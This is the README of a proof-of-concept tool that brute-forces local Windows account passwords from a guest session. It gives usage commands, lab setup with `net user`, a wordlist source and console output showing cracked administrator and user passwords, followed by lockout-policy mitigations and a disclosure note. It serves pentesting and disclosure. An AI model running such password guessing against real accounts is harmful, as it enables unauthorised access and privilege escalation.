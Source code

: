 Notice 1: We are excited to announce that our current tool has been ported to a PowerShell version. This means that users can now access and use the tool directly from the PowerShell command line, making it even more convenient and efficient to use. We believe that this new version will greatly benefit our users and enhance their experience with the tool. Thank you for your continued support and we hope you enjoy the new PowerShell version: https://github.com/DarkCoderSc/power-brute-logon

Notice 2: We have recently learned that Microsoft has enabled the account lockdown policy by default in modern and up-to-date versions of Windows. This policy helps to secure the system by locking an account after a certain number of failed login attempts. While this is a beneficial security measure, it  renders the proof-of-concept (PoC) inefficient on these systems.

# Win Brute Logon (Proof Of Concept)

Release date: `2020-05-14`

Target: Windows XP to Latest Windows 10 Version (1909)

![Console](https://i.ibb.co/Cm5052S/screen.png)

Weakness location : `LogonUserA`, `LogonUserW`, `CreateProcessWithLogonA`, `CreateProcessWithLogonW`

## Usage

### Wordlist File

`WinBruteLogon.exe -u <username> -w <wordlist_file>`

### Stdin Wordlist

`type <wordlist_file> | WinBruteLogon.exe -u <username> -`

# Introduction

Win Brute Logon is designed to simulate a brute-force attack on a Microsoft account by guessing large numbers of password combinations in a short amount of time. This allows pentesters to test the security posture of their systems and assess their defenses against brute-force attacks. The tool exploits the lack of an account lockout mechanism, which is a common weakness in many systems (before account lockout becomes enabled by default on Windows 11). By attempting to guess the password of an account, the tool can help pentesters identify and address vulnerabilities in their security measures. It should be used responsibly and within the bounds of the law.

# PoC Test Scenario (With a Guest Account)

For this demonstration, we will set up a fresh version of Windows 10 on a virtual or physical machine. Once the machine is set up, log in as an administrator. Next, create two different local accounts: one administrator account and one regular user account. Please note that although we will be using the guest account for the demo, this proof-of-concept (PoC) is not limited to the guest account. It can be used from any account or group, including guest, regular user, and admin user.

## Create a new admin user

`net user darkcodersc /add`

`net user darkcodersc trousers` (trousers is the password)

`net localgroup administrators darkcodersc /add`

## Create a regular user

`net user HackMe /add`

`net user HackMe ozlq6qwm` (ozlq6qwm is the password)

## Create a new Guest account

`net user GuestUser /add`

`net localgroup users GuestUser /delete`

`net localgroup guests GuestUser /add`

## Get a Wordlist 

In my case both `trousers` and `ozlq6qwm` are in SecList : https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt

## Start the attack

To begin the demonstration, log off from the administrator account or restart the machine and log in to the guest account. Then, place the PoC executable in a location where you have access as a guest user.

Usage : `WinBruteLogon.exe -v -u <username> -w <wordlist_file>`

`-v` is optional, it design the verbose mode.

By default, domain name is the value designated by `%USERDOMAIN%` env var. You can specify a custom name with option `-d`

### Crack First User : `darkcodersc` (Administrator)

prompt(guest)>`WinBruteLogon.exe -v -u darkcodersc -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=2260, handle=364
[INFO] New "TWorker" Thread created with id=3712, handle=532
[DONE] Done.
[ OK ] Password for username=[darkcodersc] and domain=[DESKTOP-0885FP1] found = [trousers]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=2260, handle=364) Thread successfully terminated.
[INFO] "TWorkers"(id=3712, handle=532) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

### Crack Second User : `HackMe` (Regular User)

prompt(guest)>`WinBruteLogon.exe -v -u HackMe -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=5748, handle=336
[INFO] New "TWorker" Thread created with id=4948, handle=140
[DONE] Done.
[ OK ] Password for username=[HackMe] and domain=[DESKTOP-0885FP1] found = [ozlq6qwm]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=5748, handle=336) Thread successfully terminated.
[INFO] "TWorkers"(id=4948, handle=140) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

# Real world scenario

"In a real-world scenario, if an attacker gains access to a low-privileged user account, they may be able to crack the password of a more privileged user and escalate their privileges. To mitigate this risk, there are a few steps that can be taken:

* If present, disable any guest accounts.
* Implement application white-listing to restrict the execution of unauthorized software.
* Follow guidelines for creating and maintaining strong passwords for all users.

To implement a security lockout policy (which is not enabled by default), follow these steps:

* Open the 'secpol.msc' utility.
* Navigate to 'Account Policies' > 'Account Lockout Policy'
* Edit the 'Account lockout threshold' value with a desired number of attempts (from 1 to 999). This value represents the number of failed login attempts before the account is locked.

Please note that the lockout policy does not apply to the administrator account. In this case, the best protection for the administrator account (if enabled) is to set up a very complex password.

A report detailing this weakness has been sent to the Microsoft Security Team. They should consider enabling the account lockout policy by default."

(UPDATE 2022) : Account lockout **finally** enabled by default.
